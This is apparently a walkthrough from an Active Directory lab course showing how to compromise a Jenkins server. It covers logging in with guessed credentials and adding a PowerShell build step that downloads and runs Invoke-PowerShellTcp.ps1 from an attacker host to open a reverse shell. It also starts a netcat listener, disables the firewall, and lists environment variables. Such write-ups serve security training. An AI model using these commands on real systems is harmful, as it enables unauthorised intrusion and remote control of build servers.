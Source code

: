 so we can brute force accounts using Hydra, but first to proceed i've try to login at [http://172.16.3.11:8080/login](http://172.16.3.11:8080/login?from=%2Fuser%2Fjenkinsadmin%2F) using as a psw the same username and generic passwords login with builduser:builduser credentials

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

* Modify an existing project, clicking to existing project0

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

* Configure -> Add build step (write the following command) -> `powershell iex (iwr -UseBasicParsing http://<attacker_machine>/Invoke-PowershellTcp.ps1);power -Reverse -IPAddress <attacker_machine> -Port 1339`

```powershell
powershell.exe iex (iwr http://172.16.100.67/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.67 -Port 1339
```

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

and save it. Meanwhile run netcat on our attacker win machine going in listening mode on port 1339:

```bash
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 1339
```

Now our student user appartains to administrators group and we can disabilitate firewall, do it!

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

After that, run a web server using HFS.exe present into Tool folder and move Invoke-PowerShellTCP.ps1 to Virtual File System copying the URL into program clipboard:

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Click on Build Now

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Go again to our shell and we'll see the connection back:

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
ls env:
```

```powershell
Name                           Value
----                           -----
ALLUSERSPROFILE                C:\ProgramData
APPDATA                        C:\Users\ciadmin\AppData\Roaming
BASE                           C:\Users\Administrator\.jenkins
BUILD_DISPLAY_NAME             #3
BUILD_ID                       3
BUILD_NUMBER                   3
BUILD_TAG                      jenkins-Project0-3
BUILD_URL                      http://172.16.3.11:8080/job/Project0/3/
CI                             true
CommonProgramFiles             C:\Program Files\Common Files
CommonProgramFiles(x86)        C:\Program Files (x86)\Common Files
CommonProgramW6432             C:\Program Files\Common Files
COMPUTERNAME                   DCORP-CI
ComSpec                        C:\Windows\system32\cmd.exe
DriverData                     C:\Windows\System32\Drivers\DriverData
EXECUTOR_NUMBER                4
HUDSON_COOKIE                  667e6811-a108-4927-b6e0-07ded5dff4f3
HUDSON_HOME                    C:\Users\Administrator\.jenkins
```